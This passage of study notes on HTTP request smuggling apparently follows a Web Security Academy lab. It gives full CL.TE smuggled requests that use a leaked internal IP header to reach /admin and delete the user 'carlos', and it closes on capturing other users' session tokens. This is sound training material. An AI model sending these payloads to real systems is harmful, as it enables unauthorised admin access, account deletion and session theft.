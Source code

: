 When sending the attacker request and following it up, make sure you see as much as possible of the normal request in the response to potentially reveal the header. Select the full normal POST request to search and check the bytes value (i.e. `164`). If no header is present, try increasing it.

>[!danger]
>If set too high, then a time out occurs.

![[Foobar.png]]

If revealed, modify the attacker request with the value header:

```http
POST / HTTP/1.1
Host: 0a5c007b04fe44ad80764f2300d600f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
X-HghHKh-Ip: 127.0.0.1

x=
```

If access is provided, try deleting the user:

```http
POST / HTTP/1.1
Host: 0a5c007b04fe44ad80764f2300d600f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
X-HghHKh-Ip: 127.0.0.1

x=
```
# Capturing Other User Requests

If the app contains any kind of functionality that allows you to store and later retrieve textual data, it can be used to capture the content of other user's requests including session tokens or other sensitive data submitted.

Suitable functions include comments, emails, profile descriptions, screen names and so on. 
